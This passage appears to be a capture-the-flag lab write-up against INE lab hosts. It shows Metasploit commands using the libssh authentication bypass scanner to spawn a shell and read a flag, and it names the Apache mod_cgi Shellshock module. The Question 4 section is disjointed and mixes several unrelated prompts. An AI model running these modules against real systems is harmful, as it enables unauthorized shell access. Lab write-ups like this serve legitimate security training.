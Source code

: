 
### Question 3:

Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > search libssh_auth_bypass

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/libssh_auth_bypass  2018-10-16       normal  No     libssh Authentication Bypass Scanner
   1    \\_ action: Execute                      .                .       .      Execute a command
   2    \\_ action: Shell                        .                .       .      Spawn a shell

```

here we’ll set some information to this modules and here

```bash
set rhost target2.ine.local
set spawn_pty true
run
```

with that we gained the shell over this system (target2.ine.local)

```bash
sh-5.2$ pwd
pwd
/home/user
sh-5.2$ cat flag.txt
cat flag.txt
FLAG3_f115fc82e79543e89a0********
```

---

### Question 4:

The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local.

Found by using this payload

```bash
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.
